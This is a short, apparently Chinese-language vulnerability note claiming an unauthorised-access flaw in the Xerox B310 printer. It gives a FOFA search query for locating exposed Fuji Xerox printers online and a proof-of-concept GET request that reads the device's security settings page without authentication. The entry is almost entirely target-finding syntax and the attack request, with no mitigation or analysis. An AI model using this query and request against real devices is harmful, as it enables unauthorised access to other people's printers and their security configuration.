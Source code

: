 Xerox(R) B310 Printer存在未授权访问

fofa

product="FUJI_Xerox-打印机" && server="HTTP server" || title="Xerox(R) B310 Printer"

poc

GET /webglue/content?c=%2FSettings%2FSecurity&lang=zh-CN